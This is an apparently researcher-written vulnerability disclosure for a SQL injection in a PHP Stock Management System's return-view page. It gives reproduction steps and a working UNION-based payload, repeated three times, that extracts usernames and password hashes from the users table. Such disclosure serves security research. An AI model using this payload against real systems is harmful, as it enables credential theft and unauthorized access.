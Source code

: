 #### 1. **Vulnerability Overview**

- **Vulnerable Endpoint**: `/sms/admin/?page=return/view_return&id=1`
- **Vulnerable Parameter**: `id`
- **Issue Type**: SQL Injection
- **Software URL**: `https://www.sourcecodester.com/php/15023/stock-management-system-phpoop-source-code.html`

---

#### 2. **Vulnerability Description**

A SQL injection vulnerability has been identified in the Return List page of the Stock Management System, specifically in the `id` parameter of the following endpoint:`/sms/admin/?page=return/view_return&id=1`

This vulnerability allows an attacker to inject arbitrary SQL queries into the backend database by manipulating the `id` parameter. The vulnerability can be exploited using a UNION-based SQL injection payload.

By injecting the following payload into the `id` parameter:

``` SQL
-1' UNION SELECT 1,2,3,4,(SELECT group_concat(username,0x3a,password) FROM users),6,7,8,9-- -
```

An attacker can perform a **UNION SELECT** query that returns sensitive data from the `users` table, specifically usernames and MD5 hashed passwords. This information can be easily extracted and used for unauthorized access or other malicious activities.

This exposure of user credentials, even if hashed, poses a serious security risk as attackers could attempt to crack these hashes or use them to gain unauthorized access to the system.

---

#### 3. **Steps to Reproduce**

1. Login to a staff member account.
2. Access the vulnerable page: `/sms/admin/?page=return/view_return&id=1`.
3. Modify the `id` parameter to the following payload:  
    `-1' UNION SELECT 1,2,3,4,(SELECT group_concat(username,0x3a,password) FROM users),6,7,8,9-- -`
4. The response will contain the concatenated usernames and password hashes of users stored in the `users` table.

---

#### 4. **SQL Injection Payload**

`-1' UNION SELECT 1,2,3,4,(SELECT group_concat(username,0x3a,password) FROM users),6,7,8,9-- -`

---

#### 5. **Proof of Concept (PoC)**

Below are screenshots of the proof of concept, demonstrating the SQL Injection attack in action, which allows the attacker to reveals sensitive user credentials.

![1](https://github.com/th3w0lf-1337/Vulnerabilities/blob/main/SMS-PHP/SQLi/Return-List/Return-List-1.png)
![2](https://github.com/th3w0lf-1337/Vulnerabilities/blob/main/SMS-PHP/SQLi/Return-List/Return-List-2.png)

---

#### 6. **Impact**

This vulnerability has a significant impact on the security of the application. An attacker with knowledge of this vulnerability can:

1. Extract usernames and password hashes from the `users` table.
2. Potentially use these hashes to crack the passwords.
3. Gain unauthorized access to sensitive areas of the application or escalate privileges.

---
